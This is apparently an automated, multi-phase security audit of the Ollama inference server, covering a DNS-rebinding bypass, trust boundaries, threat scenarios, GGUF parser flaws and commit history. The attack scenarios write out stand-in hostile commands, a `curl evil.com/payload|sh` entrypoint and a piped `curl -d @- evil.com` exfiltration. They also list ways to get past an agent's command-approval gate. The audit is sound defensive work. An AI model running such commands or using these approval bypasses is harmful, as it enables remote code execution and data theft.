At line 1607, if the server is bound to a non-loopback address (e.g., `OLLAMA_HOST=0.0.0.0`), the middleware skips all checks and allows any Host header. This is by design (the server is intentionally exposed), but users setting `OLLAMA_HOST=0.0.0.0` for LAN access may not realize this disables DNS rebinding protection entirely.

### Vector 3: Host header normalization is adequate

The current code (evolved from the original patch) now includes `strings.ToLower(host)` in `allowedHost` (line 1574) and properly strips ports via `net.SplitHostPort`. No bypass via case or port variations.

### Vector 4: All gin-routed paths are covered

The middleware is applied at the router level via `r.Use()`, so all routes registered on the gin router (including `/v1/*` OpenAI compat, `/v1/messages` Anthropic compat) are covered. No route-specific gaps within gin.

### Vector 5: addr == nil bypass

At line 1602, if `addr` is nil, the middleware allows all requests. In `Serve()` at line 1790 (where `s` is constructed), `addr` is set from `ln.Addr()`, so this should not be nil in production. However, in test code (`Server{}` with zero value), `addr` is nil, meaning tests do not exercise the middleware.

## Summary

The primary bypass is the `registry.Local` wrapper intercepting `/api/delete` and `/api/pull` before they reach gin's middleware chain. This is a real, exploitable bypass of the DNS rebinding protection for these two endpoints when the registry client is enabled.


## Project Classification

- **Primary type**: Local AI inference server with REST API
- **Secondary types**: CLI tool, desktop application (macOS/Windows tray), model registry client, agent runtime (experimental)
- **Language**: Go (server, CLI), C++ (llama.cpp inference engine via CGo)
- **Deployment**: Single-binary daemon binding localhost:11434 by default; no authentication by default

## Architecture Model

### Components

| Component | Location | Role |
|-----------|----------|------|
| HTTP API Server | `server/routes.go` | Gin-based REST API (Ollama native + OpenAI/Anthropic compat) |
| Registry Client | `server/internal/client/ollama/`, `server/internal/registry/` | OCI-based model pull/push from registry.ollama.ai |
| Registry Local Wrapper | `server/internal/registry/server.go` | Intercepts `/api/delete`, `/api/pull` before gin middleware |
| GGUF Parser | `fs/ggml/gguf.go`, `fs/gguf/` | Binary format parser for model files |
| LLM Runner | `llm/server.go`, `runner/llamarunner/`, `runner/ollamarunner/` | Spawns llama.cpp subprocess for inference |
| CLI | `cmd/cmd.go` | User-facing command-line interface |
| Desktop App | `app/` | macOS/Windows tray app with auto-updater |
| Auto-Updater | `app/updater/` | Downloads and extracts update ZIPs (darwin) |
| Modelfile/Agentfile Parser | `parser/` | Parses model configuration directives |
| Agent Runtime (experimental) | `x/agent/`, `x/cmd/`, `x/tools/` | Tool-calling agent with bash execution, MCP, web fetch |
| Middleware | `middleware/` | OpenAI, Anthropic, Responses API translation layers |
| Blob Cache | `server/internal/cache/blob/` | Content-addressed disk cache for model blobs |
| Auth | `auth/auth.go`, `server/routes.go` (getAuthorizationToken) | Ed25519 signing for registry auth; no API auth |
| Image Generation (experimental) | `x/imagegen/` | Experimental image generation with separate transfer/manifest |
| Cloud Integration | `internal/cloud/` | Ollama cloud passthrough for remote inference |
| Environment Config | `envconfig/config.go` | OLLAMA_HOST, OLLAMA_ORIGINS, OLLAMA_MODELS, etc. |

### Transports

- **HTTP REST** (localhost:11434): All API endpoints, streaming via chunked JSON
- **HTTP/HTTPS**: Registry pull/push (registry.ollama.ai), auth token exchange
- **Subprocess stdio**: LLM runner process (llama.cpp server), Agent ENTRYPOINT, MCP servers
- **Filesystem**: Model blobs, manifests, cache directory
- **Auto-update HTTPS**: Update ZIP download (darwin)

## Trust Boundaries

| ID | Boundary | Description |
|----|----------|-------------|
| TB1 | Network -> API Server | HTTP requests from localhost or network clients |
| TB2 | API Server -> Registry | Outbound HTTPS to registry.ollama.ai (attacker-controlled for custom registries) |
| TB3 | API Server -> GGUF Parser | Untrusted binary model data parsed in-process |
| TB4 | API Server -> LLM Runner | Subprocess spawning with model-derived parameters |
| TB5 | API Server -> Filesystem | Blob storage, manifest writes, model directory |
| TB6 | Registry -> API Server | Manifest/config JSON from registry (attacker-controlled) |
| TB7 | CLI -> Agent Runtime | User prompt -> tool calls -> bash execution |
| TB8 | Agent Runtime -> OS | Subprocess execution (bash, MCP servers, ENTRYPOINT) |
| TB9 | Update Server -> Updater | ZIP download and extraction with code signing |
| TB10 | Browser -> API Server | Cross-origin requests via CORS (file://, app://, etc.) |

## Attacker-Controlled Inputs (comprehensive map)

| Input | Entry Point | Trust Level | Reaches |
|-------|------------|-------------|---------|
| HTTP request body (JSON) | All POST endpoints | Untrusted (no auth) | Model names, prompts, images, options, URLs |
| Model name in URL/body | `/api/pull`, `/api/create`, `/api/show`, `/api/chat` | Untrusted | Registry resolution, filesystem paths |
| Digest parameter | `/api/blobs/:digest` | Untrusted | Filesystem path construction |
| GGUF file content | `/api/create` (upload), `/api/pull` (registry) | Untrusted binary | GGUF parser (9 CVEs), tensor loading |
| Registry manifest JSON | `/api/pull` response | Server-controlled (attacker if custom registry) | Layer digests, config, media types |
| Registry config JSON | Pulled from registry | Server-controlled | Entrypoint, MCP commands, system prompt |
| WWW-Authenticate header | Registry 401 response | Attacker-controlled | Auth token forwarding (realm URL) |
| Modelfile/Agentfile text | `/api/create`, CLI | User input | FROM, SYSTEM, ENTRYPOINT, PARAMETER directives |
| User prompt | `/api/chat`, `/api/generate`, CLI | Untrusted | LLM input, $PROMPT substitution in ENTRYPOINT |
| Base64 image data | `/api/chat` messages | Untrusted | Image decoding (null deref CVE) |
| OLLAMA_HOST env var | Process environment | Local user | Bind address, disables host middleware if non-loopback |
| OLLAMA_ORIGINS env var | Process environment | Local user | Extends CORS allow list (additive only) |
| OLLAMA_MODELS env var | Process environment | Local user | Model storage path |
| Update ZIP | Auto-updater HTTPS download | Update server | File extraction (ZIP slip) |
| Tool call arguments | Agent LLM output | LLM-controlled | bash -c execution, file paths, URLs |
| MCP server commands | Model config (pullable) | Registry-controlled | Subprocess spawning |

## DFD/CFD Slices (with High-Risk flagging)

### DFD-1: Model Pull from Untrusted Registry [HIGH-RISK]



**Threats**: SSRF in pull URL, malicious GGUF (9 CVE classes), supply-chain RCE via Entrypoint/MCP, digest path traversal, blob integrity skip on cache hit, manifest OOB index.

### DFD-2: Cross-Origin Browser Attack [HIGH-RISK]



**Threats**: file://* in default CORS, no auth on any endpoint, DNS rebinding bypasses allowedHostsMiddleware via registry.Local.

### DFD-3: Agent Tool Execution [HIGH-RISK]



**Threats**: Shell metacharacter bypass, pipe target bypass, find -exec, sed -i, symlink resolution gap, YoloMode.

### DFD-4: Blob Upload and GGUF Parsing [HIGH-RISK]



### CFD-1: Access Control Flow [HIGH-RISK]



### CFD-2: Agent Approval Flow [HIGH-RISK]



## Attack Surface

### External Attack Surface (no authentication required)
1. **All HTTP API endpoints** on localhost:11434 — no auth, CORS allows file://*
2. **GGUF binary parser** — reachable via /api/create blob upload or /api/pull
3. **Registry interaction** — SSRF via model name, malicious manifest/config
4. **OpenAI/Anthropic compat endpoints** — same handlers, additional middleware translation

### Local Attack Surface
5. **Blob cache directory** (0o777 permissions in new cache) — blob replacement, symlink attacks
6. **Model directory** — manifest/config tampering
7. **Environment variables** — OLLAMA_HOST disables host checking, OLLAMA_ORIGINS additive-only

### Agent Attack Surface (experimental)
8. **Tool call execution** — LLM-directed bash commands with inadequate approval
9. **ENTRYPOINT** — arbitrary command from pulled model config, no consent
10. **MCP server spawning** — arbitrary subprocess from pulled model config

### Auto-Updater Attack Surface (darwin)
11. **ZIP extraction** — unpatched ZIP slip in both extraction loops

## Domain Attack Research

### Domains Identified
1. **HTTP Server / REST API** (unauthenticated, CORS)
2. **OCI Registry Protocol** (manifest, blob transfer)
3. **Binary Format Parsing** (GGUF)
4. **File Upload / Content-Addressed Storage**
5. **Subprocess Execution** (LLM runner, agent tools, ENTRYPOINT)
6. **Auto-Update with Code Signing**
7. **Agent/Tool Framework** (LLM-directed execution)

### Attack Class Table

| Domain | Attack Class | Applicable | SAST Target |
|--------|-------------|------------|-------------|
| HTTP API | No-auth destructive ops | YES | All DELETE/POST handlers without auth check |
| HTTP API | CORS misconfiguration | YES | `file://*` default origin |
| HTTP API | DNS rebinding | YES (partial bypass via registry.Local) | allowedHostsMiddleware bypass paths |
| OCI Registry | Supply-chain RCE | YES | Entrypoint/MCP in pulled config |
| OCI Registry | SSRF via model URL | YES | Pull URL resolution |
| OCI Registry | Manifest confusion | YES | Layer digest/mediatype handling |
| GGUF Parser | Integer overflow/underflow | YES (9 CVEs) | Arithmetic on header fields before allocation |
| GGUF Parser | Unbounded allocation | YES | String length, tensor count, array size fields |
| GGUF Parser | OOB read | YES | Array index from untrusted header |
| File Storage | Path traversal | YES | Digest-to-path, ZIP entry names |
| File Storage | Symlink attacks | YES | Blob cache, ZIP extraction |
| File Storage | TOCTOU | YES | Stat-then-use in blob cache |
| Subprocess | Command injection | YES | Agent bash -c, ENTRYPOINT, MCP |
| Subprocess | Argument injection | YES | $PROMPT substitution |
| Auto-Update | ZIP slip | YES (unpatched) | updater_darwin.go extraction loops |
| Agent | Approval bypass | YES (multiple vectors) | Pipe targets, metacharacters, find -exec |
| Agent | Prompt injection -> tool use | YES | LLM output driving tool calls |

### Manual Review Checklist

- [ ] All GGUF numeric fields: verify bounds checks before allocation/indexing
- [ ] Registry manifest: verify all digest strings validated before filesystem use
- [ ] ConfigV2 deserialization: audit all fields that become commands or paths
- [ ] Blob cache: verify integrity on every load, not just download
- [ ] Agent approval: audit all safeCommands for dangerous flag combinations
- [ ] ZIP extraction in updater: add path traversal checks
- [ ] CORS: evaluate removing file://* from defaults
- [ ] registry.Local: ensure middleware applies to intercepted routes

## Threat Model

### Assets
1. **User's system** — full user-privilege access via ENTRYPOINT, agent tools, MCP
2. **Model data** — intellectual property in custom/fine-tuned models
3. **Inference data** — prompts and responses (potentially sensitive)
4. **System availability** — DoS via GGUF parser crashes, resource exhaustion
5. **Network position** — SSRF from server to internal networks

### Threat Actors
| Actor | Capability | Motivation |
|-------|-----------|------------|
| Malicious model publisher | Publishes crafted model to registry | RCE via ENTRYPOINT/MCP, DoS via GGUF |
| Local network attacker | DNS rebinding, cross-origin requests | Model theft, data exfiltration, model deletion |
| Malicious web page | JavaScript from file:// or attacker origin | Full API access via CORS, model manipulation |
| Local co-tenant | Write access to shared model directory | Blob poisoning, symlink attacks |
| Compromised LLM | Controls tool call output | Arbitrary command execution via agent tools |

### Attack Scenarios

**S1 — Supply-Chain RCE (Critical)**: Attacker publishes model with ENTRYPOINT `curl evil.com/payload|sh`. Victim runs `ollama run model`. Entrypoint executes with no consent prompt. Full RCE.

**S2 — Browser-Based Model Deletion (High)**: Victim opens malicious HTML file locally. JavaScript sends DELETE to `http://localhost:11434/api/delete` with model name. CORS passes (file://* allowed). No auth required. Models deleted.

**S3 — DNS Rebinding to Pull Malicious Model (High)**: Attacker page performs DNS rebinding. Sends POST to `/api/pull` which is intercepted by registry.Local (bypasses allowedHostsMiddleware). Attacker model pulled and cached.

**S4 — GGUF Parser DoS/Crash (High)**: Attacker uploads crafted GGUF via `/api/blobs` then creates model. Parser hits OOB read, null deref, unbounded allocation, or div-by-zero. Server crashes.

**S5 — Agent Escape via Pipe (High)**: LLM issues tool call `cat tools/safe.go | curl -d @- evil.com`. Approval prefix matches `cat:tools/`. Pipe target exfiltrates data. No secondary approval.

**S6 — Blob Cache Poisoning (Medium)**: Co-tenant on shared system replaces blob file (0o777 dir) with same-size malicious content. Next model load skips integrity check (cache hit). Poisoned model loaded.

**S7 — SSRF via Pull (Medium)**: Attacker sends `/api/pull` with model name resolving to internal URL. Server makes outbound request to internal service.

**S8 — ZIP Slip in Auto-Updater (Medium)**: If update server compromised or MITM, malicious ZIP with `../../` entries writes files outside bundle directory. Extraction occurs before signature verification.

## High-Risk DFD Slices (for Phase 8 chamber grouping)

| ID | Slice | Key Files | Risk |
|----|-------|-----------|------|
| DFD-1 | Model Pull -> Registry -> GGUF Parse -> Execution | `server/routes.go` (PullHandler), `server/internal/registry/`, `fs/ggml/gguf.go`, `cmd/cmd.go` (runEntrypoint) | Critical |
| DFD-2 | Cross-Origin -> API -> Destructive Ops | `server/routes.go` (GenerateRoutes, allowedHostsMiddleware), `envconfig/config.go` (AllowedOrigins) | High |
| DFD-3 | LLM Output -> Agent Tool -> bash -c | `x/agent/`, `x/cmd/run.go`, `x/tools/` | High |
| DFD-4 | Blob Upload -> GGUF Parse -> Crash | `server/routes.go` (CreateBlobHandler, CreateHandler), `fs/ggml/gguf.go` | High |

## High-Risk CFD Slices (for Phase 8 chamber grouping)

| ID | Slice | Key Files | Risk |
|----|-------|-----------|------|
| CFD-1 | Access Control (CORS + Host middleware + registry.Local bypass) | `server/routes.go`, `server/internal/registry/server.go`, `envconfig/config.go` | Critical |
| CFD-2 | Agent Approval (prefix matching, deny list, YoloMode) | `x/agent/approval.go`, `x/cmd/run.go` | High |
| CFD-3 | Blob Integrity (cache hit skip, size-only check) | `server/internal/cache/blob/cache.go`, `manifest/paths.go` | Medium |
| CFD-4 | Registry Auth Token Flow (realm validation) | `server/images.go` (getAuthorizationToken), `auth/auth.go` | Medium |

## Phase 4 CodeQL Extraction Targets

| DFD Slice | Source Type | Sink Kind | Notes |
|-----------|------------|-----------|-------|
| DFD-1 (Pull) | RemoteFlowSource | http-request, file-access, command-execution, deserialization | Registry response -> filesystem -> GGUF parse -> exec |
| DFD-2 (CORS) | RemoteFlowSource | http-request | Cross-origin JS -> API handlers |
| DFD-3 (Agent) | RemoteFlowSource (LLM output) | command-execution | Tool call args -> bash -c |
| DFD-4 (Upload) | RemoteFlowSource | file-access, deserialization | HTTP body -> blob write -> GGUF parse |
| Digest param | RemoteFlowSource | file-access | URL param -> BlobsPath() |
| Model name | RemoteFlowSource | file-access, http-request | JSON body -> path construction, registry URL |
| Env vars | EnvironmentVariable | file-access, http-request | OLLAMA_MODELS -> paths, OLLAMA_HOST -> bind |

## Spec Gap Candidates

| Spec/Protocol | Implementation | Gap Risk |
|---------------|---------------|----------|
| OCI Distribution Spec | `server/internal/registry/`, `server/images.go` | Manifest parsing, content-type handling, digest validation |
| GGUF Format | `fs/ggml/gguf.go` | No formal spec; implementation-defined bounds checking |
| OpenAI API Compat | `middleware/openai.go` | Translation layer may introduce injection via field mapping |
| Anthropic Messages API | `middleware/anthropic.go` | Translation layer |
| HTTP CORS | `server/routes.go` (gin-cors) | Overly permissive defaults |

## Phase 7 Enrichment Notes

**Phase**: 7 — Enrichment Filter
**Date**: 2026-04-07
**Analyst**: Phase 7 Enrichment Filter (claude-sonnet-4-6)
**Findings processed**: p4-f01 through p4-f11

---

### Verdict Summary

| Finding | Classification | Verdict | Severity | Notes |
|---------|---------------|---------|----------|-------|
| p4-f01 | SECURITY | KEEP | CRITICAL | parth/agents branch only; Entrypoint absent from main |
| p4-f02 | SECURITY | KEEP | HIGH | Shell-parsing bypass of approval gate; multiple vectors confirmed |
| p4-f03 | SECURITY | KEEP | HIGH | Unauthenticated DoS; matches CVE-2025-66960/CVE-2025-0315 pattern |
| p4-f04 | SECURITY | KEEP | HIGH | uint64->int overflow in array parser; panics server |
| p4-f05 | SECURITY | KEEP | HIGH | Overflow-to-bounds-bypass; reaches C++ runner |
| p4-f06 | SECURITY | KEEP | HIGH | Div-by-zero in ggufPadding; matches CVE-2025-0317 |
| p4-f07 | SECURITY | KEEP | HIGH | file://* in CORS allow-list; confirmed on main; no operator mitigation possible |
| p4-f08 | SECURITY | KEEP | HIGH | registry.Local bypasses allowedHostsMiddleware for /api/delete, /api/pull |
| p4-f09 | ENVIRONMENT | KEEP | MEDIUM (downgraded from HIGH) | Requires update server or MITM; extraction before verification is the critical flaw |
| p4-f10 | ENVIRONMENT | KEEP | MEDIUM | Requires multi-user/shared system; 0o777 + size-only integrity check |
| p4-f11 | SECURITY | KEEP | MEDIUM (escalation to HIGH recommended) | Zero-auth SSRF; CVE-2026-5530 rates HIGH; cloud IMDS credential theft in scope |

**Dropped findings**: 0

---

### Branch Clarification: p4-f01

Code verification confirms `Entrypoint` is absent from `types/model/config.go` on `main` branch (grep returns no matches). The ENTRYPOINT feature exists exclusively on `remotes/origin/parth/agents` (commit 5c0caaff). The finding is retained at CRITICAL because:
1. The vulnerability is architecturally complete on the branch under review.
2. No fix or mitigation exists on the branch.
3. The feature requires design-level intervention before it can safely merge.
4. Phase 4 SAST was scoped to include the parth/agents branch as documented in the audit state.

---

### Entry Points Not Modeled in Phase 3 DFD Slices

1. **`registry.Local.ServeHTTP` as outermost HTTP handler** (relevant to p4-f08): The DFD-2 and CFD-1 slices modeled the gin middleware chain as the entry point for all HTTP requests. In the current codebase, `registry.Local` sits upstream of gin when the registry client is enabled (`rc != nil`). The DFD should be updated to reflect the two-layer handler structure.

2. **`cmd/cmd.go:runEntrypoint` CLI execution path** (relevant to p4-f01): No DFD slice covers the CLI trust model for model execution. The existing DFDs focus on the HTTP server. A CLI-specific DFD slice is needed: `ollama run` → model config deserialization → ENTRYPOINT execution.

---

### Sinks Without Modeled High-Risk Flows

| Sink | Location | Finding | Gap |
|------|----------|---------|-----|
| `exec.Command(execPath, args...)` | `cmd/cmd.go:runEntrypoint` | p4-f01 | CLI DFD slice missing |
| `exec.CommandContext(ctx, "bash", "-c", command)` | `x/tools/bash.go:64` | p4-f02 | DFD-3 existed but approval bypass vectors not enumerated as sinks |
| `url.URL{Host: n.Host}` → HTTP request | `types/model/name.go:BaseURL()` | p4-f11 | DFD-1 modeled pull flow but did not identify BaseURL() as an unvalidated SSRF sink |
| `make([]byte, length)` | `fs/ggml/gguf.go:readGGUFString` | p4-f03 | Allocation sink not formally modeled; treated as parser behavior, not a data-flow sink |

---

### GGUF Parser Structural Note (p4-f03, p4-f04, p4-f05, p4-f06)

All four GGUF findings share the attack path: unauthenticated blob upload → `/api/create` → GGUF parser. The KB already documents 9 GGUF CVEs in the advisory inventory. Phase 7 analysis confirms these findings represent new instances of the same structural pattern (absent systematic bounds-checking) rather than variants of already-patched CVEs. Phase 8 should issue a single architectural recommendation: implement a GGUF validation layer at the HTTP boundary before any parsing proceeds.

---

### CodeQL Artifact Note

No `archon/codeql-artifacts/` directory or `call-graph-slices.json` was found in the environment. All reachability assessments are based on manual code trace and KB cross-reference. The three highest-priority candidates for on-demand CodeQL analysis are:
- p4-f11 (SSRF): confirm response data flows back to attacker
- p4-f05 (tensor overflow): confirm overflowed `Size()=0` reaches the C++ runner bounds check
- p4-f08 (middleware bypass): confirm no equivalent host check exists within `handleDelete`/`handlePull`


## Source 2

## Commit Archaeology

**Source**: `archon/commit-recon-report.md`
**Scan date**: 2026-04-17
**Analyst**: Commit Archaeologist (Phase 1)

### Priority Commits Table (top 15, ordered by risk)

| # | SHA | Category | Risk | Author | Date | Description |
|---|-----|----------|------|--------|------|-------------|
| 1 | `d931ee8f` | 3 Silent Fix | HIGH | mxyng@pm.me | 2025-05-05 | Symlink path traversal escape: `filepath.IsLocal` gate added to model blob enumeration (no CVE) |
| 2 | `9d902d63` | 3 Silent Fix | HIGH | brucewmacdonald@gmail.com | 2026-02-24 | GGUF tensor OOB: `tensorEnd > fileSize` bounds check added (no CVE; Gecko Security co-author) |
| 3 | `44179b7e` | 3 Silent Fix | HIGH | parth.sareen@ollama.com | 2026-01-06 | Agent approval sibling-escape: `path.Clean` + base comparison plugs bypass of c8b599bd fix |
| 4 | `1ed2881e` | 3 Silent Fix | HIGH | patrick@infrahq.com | 2025-10-02 | Template nil-node panic: nil pipeline/branch returns error instead of crashing (DoS via Modelfile) |
| 5 | `64883e3c` | 3 Silent Fix | HIGH | patrick@infrahq.com | 2025-09-22 | Auth keypair: system-path `/usr/share/ollama/.ollama` key fallback removed (privilege confusion) |
| 6 | `2aee6c17` | 2 Control Weakening | HIGH | jmorganca@gmail.com | 2025-12-20 | `verifyBlob()` removed, replaced by streaming hash — verify all abort branches still check hash |
| 7 | `62d29b21` | 1 Dangerous Pattern | HIGH | quinn@slack.org | 2023-09-01 | `html/template` → `text/template`: HTML auto-escape disabled for all LLM prompt templates |
| 8 | `39982a95` | 4 Reverted Fix | HIGH | jmorganca@gmail.com | 2026-03-03 | Revert removes 2843 lines of cloud auth code including `writeCloudUnauthorized`, model resolver |
| 9 | `fc8c0445` | 3 Silent Fix | MEDIUM | jmorganca@gmail.com | 2024-03-08 | `allowedHostsMiddleware` added — DNS rebinding window confirmed pre-fix |
| 10 | `8207e55e` | 2 Control Weakening | MEDIUM | drifkin@drifkin.net | 2026-03-03 | Cloud passthrough proxy: new auth surface, later reverted; auth gaps may recur on re-addition |
| 11 | `61086083` | 1 Dangerous Pattern | MEDIUM | parth.sareen@ollama.com | 2026-03-09 | Web fetch/search routes: body forwarded to cloud proxy without URL validation |
| 12 | `9770e3b3` | 1 Dangerous Pattern | MEDIUM | pdevine@sonic.net | 2023-08-11 | Ed25519 key generation using vendored OpenSSH implementation (custom crypto, replaced by fd10a2ad) |
| 13 | `bf198c39` | 3 Silent Fix | LOW | mxyng@pm.me | 2023-07-20 | `verifyBlob()` first introduced — confirms pre-fix state had zero blob integrity verification |
| 14 | `d931ee8f` | 1 Dangerous Pattern | HIGH | mxyng@pm.me | 2025-05-05 | (same commit) Pre-fix state: `filesForModel()` glob accepted symlinks without path validation |
| 15 | `0aaf6119` | 1 Dangerous Pattern | LOW | patrick@infrahq.com | 2026-02-11 | `$VISUAL`/`$EDITOR` → `exec.Command(args[0], args[1:]...)` — env-controlled binary name |

### Project Security Vocabulary Discovered

**Validators/sanitizers** (for Phase 3 KB builder context):
`sanitize`, `sanitizeFilename`, `sanitizeConvWeight`, `verifyBlob`, `verifyDownload`, `verifyExtractedBundle`, `parseAndValidateModelRef`, `allowedHost`, `allowedHostsMiddleware`, `filepath.IsLocal`, `filepath.EvalSymlinks`, `os.OpenRoot`, `filepath.Clean`

**Auth constructs**:
`ensureAuth`, `getAuthorizationToken`, `parseAuthChallenge`, `makeAuthToken`, `signCloudProxyRequest`, `writeCloudUnauthorized`, `chownWithAuthorization`

**Config controls**:
`OLLAMA_NO_CLOUD`, `cloudProxyBaseURL`, `InsecureSkipVerify` (behind `https+insecure` scheme opt-in), `allowlist`, `denylist`, `throttle`

### Phase 2 Candidates (undisclosed-fix, for @patch-bypass-checker)

HIGH priority:
- `d931ee8f` — symlink escape in `filesForModel()` / model creation
- `9d902d63` — GGUF tensor offset+size OOB in `Decode()`
- `44179b7e` — agent approval sibling-escape (second bypass of path traversal gate)
- `1ed2881e` — template nil-node DoS in `Vars()`/`Identifiers()`
- `64883e3c` — auth keypair system-path privilege confusion
- `2aee6c17` — streaming hash replaces verifyBlob (error-branch equivalence unverified)
- `39982a95` — cloud auth enforcement removed wholesale

MEDIUM priority:
- `fc8c0445` — allowedHosts middleware (host validation)
- `61086083` — web_fetch/search proxy routes

### Phase 5 Attack Surface Hints

| File | Dangerous Function | Issue | Lead Commit |
|------|--------------------|-------|-------------|
| `parser/parser.go` | `filesForModel()` | Symlink escape before `d931ee8f` | `d931ee8f` |
| `fs/ggml/gguf.go` | `Decode()` | GGUF tensor OOB (multiple CVE pattern) | `9d902d63` |
| `x/agent/approval.go` | `extractBashPrefix()` | Path traversal bypass (two-stage fix) | `44179b7e` |
| `template/template.go` | `Vars()`, `Identifiers()` | Nil-node crash via malformed Modelfile | `1ed2881e` |
| `auth/auth.go` | `keyPath()` | System-path key fallback removed | `64883e3c` |
| `server/download.go` | `blobDownload.run()` | Streaming hash error-branch coverage | `2aee6c17` |
| `server/routes.go` | cloud model routes | Auth absent post-revert | `39982a95` |


## Bypass Analysis


---

# 1ed2881e — Template nil-pipe crash (templates: fix crash in improperly defined templates)

- **Type**: undisclosed-fix
- **Cluster ID**: template-parse-dos
- **Files**: `template/template.go`, `server/images.go`
- **Author / date**: patrick@infrahq.com / 2025-10-02

## Patch summary

Pre-patch, `Identifiers(parse.Node)` and `Vars()` returned `[]string` and
crashed with a nil-pointer deref when they encountered a `*parse.TemplateNode`
/ `*parse.ActionNode` / `*parse.BranchNode` whose `.Pipe` was nil — for example
`{{template "foo"}}` (a template invocation with no pipeline) parses
successfully but produces a `TemplateNode{Pipe: nil}`. Callers like
`(*Template).Parse` (line 148) and `Capabilities()` (server/images.go:108)
would then dereference `n.Pipe.Cmds` and panic.

The patch:

1. `Identifiers` now returns `([]string, error)` and explicitly errors with
   `"undefined template specified" / "undefined action in template" /
   "undefined branch"` when it sees a nil `Pipe` on `TemplateNode`,
   `ActionNode`, or `BranchNode`.
2. `Vars()` propagates that error.
3. `template.Parse` calls `Vars()` and returns the error, so a malformed
   `{{template "foo"}}` Modelfile fragment is now rejected at model-load
   time instead of crashing later.
4. `server/images.go::Capabilities()` now logs `slog.Warn` instead of
   panicking when `Vars()` errs.
5. `Execute()` now also calls `Vars()` first and propagates errors.

## Bypass verdict

`bypassable` — the specific nil-pointer crash that the patch targets is
properly closed for the `TemplateNode/ActionNode/BranchNode` case, but
**other DoS / panic vectors against the same Modelfile-template attack
surface remain unfixed**.

## Evidence

